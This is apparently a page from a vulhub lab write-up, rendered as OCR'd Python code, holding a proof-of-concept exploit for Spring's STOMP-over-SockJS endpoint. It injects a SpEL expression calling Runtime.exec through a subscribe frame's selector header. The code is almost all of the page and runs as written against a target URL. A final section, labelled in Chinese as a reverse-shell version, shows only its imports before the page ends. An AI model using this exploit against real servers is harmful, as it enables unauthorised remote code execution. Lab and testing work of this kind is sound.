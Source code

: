 ```python
    def run(self):
        url = f'{self.base}/htmlfile?c=_jp.vulhub'
        response = self.session.get(url, stream=True)
        for line in response.iter_lines():
            time.sleep(0.5)
    
    def send(self, command, headers, body=''):
        data = [command.upper(), '\n']

        data.append('\n'.join([f'{k}:{v}' for k, v in headers.items()]))
        
        data.append('\n\n')
        data.append(body)
        data.append('\x00')
        data = json.dumps([''.join(data)])

        response = self.session.post(f'{self.base}/xhr_send?t={self.t}', data=data)
        if response.status_code != 204:
            logging.info(f"send '{command}' data error.")
        else:
            logging.info(f"send '{command}' data success.")

    def __del__(self):
        self.session.close()


sockjs = SockJS('http://your-ip:8080/gs-guide-websocket')
sockjs.start()
time.sleep(1)

sockjs.send('connect', {
    'accept-version': '1.1,1.0',
    'heart-beat': '10000,10000'
})
sockjs.send('subscribe', {
    'selector': "T(java.lang.Runtime).getRuntime().exec('touch /tmp/success')",
    'id': 'sub-0',
    'destination': '/topic/greetings'
})

data = json.dumps({'name': 'vulhub'})
sockjs.send('send', {
    'content-length': len(data),
    'destination': '/app/hello'
}, data)
```

改动后反弹 shell poc：

```python
#!/usr/bin/env python3
from asyncio.constants import LOG_THRESHOLD_FOR_CONNLOST_WRITES
import requests
import random
import string
import time
import threading
import logging
import sys
import json
import base64

logging.basicConfig(stream=sys.stdout, level=logging.INFO)

```